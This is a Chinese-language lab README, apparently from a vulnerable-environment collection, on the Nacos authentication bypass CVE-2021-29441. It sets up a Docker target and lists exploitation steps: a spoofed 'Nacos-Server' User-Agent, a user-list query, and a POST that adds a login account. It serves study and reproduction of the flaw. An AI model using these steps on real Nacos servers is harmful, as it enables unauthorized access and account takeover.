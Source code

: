 # Nacos 认证绕过漏洞（CVE-2021-29441）

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

参考链接：

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## 漏洞环境

运行漏洞环境：

```
docker-compose up -d
```

环境运行后，会开放3306、8848、9848、9555端口，在本次漏洞利用中，我们只需要用到8848端口，即web访问端口。**执行漏洞验证过程时，请先访问8848端口，确认开放，某些情况下nacos服务会启动失败（无法连接数据库导致），可以重启nacos服务或者重启所有服务**

```
docker-compose restart nacos

```

## 漏洞利用脚本
```shell

python poc.py http://target:8848

```
![poc](poc.png)


## 漏洞复现

漏洞利用过程如下：

1. 修改User-Agent的值为Nacos-Server到请求包中
2. 访问http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9查看状态码是否为200，且内容中是否包含`pageItems`
3. 使用POST方式访问http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub添加一个新用户
4. 访问http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9获取已有的用户列表
5. 访问http://target:8848/nacos/，使用添加的新用户(vulhub/vulhub)进行登录

### 检测漏洞是否存在
![1](1.png)
添加Header头后访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`可以看到返回值为200,且内容中是否包含`pageItems`

### 添加新用户

![2](2.png)
添加Header头后使用**POST**方式请求`http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub`添加一个新用户,账号密码都为vulhub


### 使用新建的账号进行登录

![3](3.png)